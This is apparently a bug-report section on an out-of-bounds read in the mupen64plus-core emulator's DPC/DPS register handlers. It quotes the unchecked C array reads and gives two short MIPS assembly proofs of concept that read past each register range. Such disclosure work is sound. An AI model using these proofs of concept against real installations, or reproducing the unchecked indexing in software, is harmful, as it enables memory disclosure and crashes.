

### BUG6: dps_reg overflow

#### Vulnerability Analysis

```c
https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/rdp/rdp_core.c#L84
void read_dpc_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct rdp_core* dp = (struct rdp_core*)opaque;
    uint32_t reg = dpc_reg(address);

    *value = dp->dpc_regs[reg];
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/rdp/rdp_core.c#L126
void read_dps_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct rdp_core* dp = (struct rdp_core*)opaque;
    uint32_t reg = dps_reg(address);

    *value = dp->dps_regs[reg];
}
```

#### Reproduction

- poc.asm

dpc
```asm
0000000000000000 <_start>:
   0:   3c048410        lui     a0,0x8410
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```


dps
```
0000000000000000 <_start>:
   0:   3c048420        lui     a0,0x8420
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```
